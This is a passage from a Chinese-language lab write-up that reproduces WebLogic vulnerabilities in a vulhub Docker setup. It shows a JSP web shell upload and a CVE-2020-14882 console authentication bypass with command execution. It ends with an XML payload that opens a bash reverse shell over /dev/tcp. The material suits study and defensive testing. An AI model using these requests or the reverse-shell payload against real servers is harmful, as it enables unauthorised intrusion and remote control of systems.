 尽管上传后会报错，但是抓 post 包的响应中有 jsp 文件名  
[![](assets/1699005728-12a2845471fca03f55adb789373467fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202033-0e13eb6a-78b1-1.png)  
访问`http://10.140.32.159:33401/ws_utc/css/upload/RS_Upload_2023-08-24_13-16-31_154/import_file_name_shell.jsp`，使用冰蝎连接

#### 3.2.2 CVE-2020-14882

**漏洞复现**：  
使用 vulhub 上的 docker 搭建环境  
这里未授权访问的地址是  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29`，通过这个地址就能够进入后台  
命令执行操作：  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/CVE-2020-14882%27);%22);`  
命令执行成功  
[![](assets/1699005728-53bef8abb566c3baa38c24e98439f821.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202058-1cc28f86-78b1-1.png)  
反弹 shell  
创建一个 xml 文件

```plain
# reverse-bash.xml

<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value><![CDATA[bash -i >& /dev/tcp/172.24.0.1/5555 0>&1]]></value>
</list>
</constructor-arg>
</bean>
</beans>
```
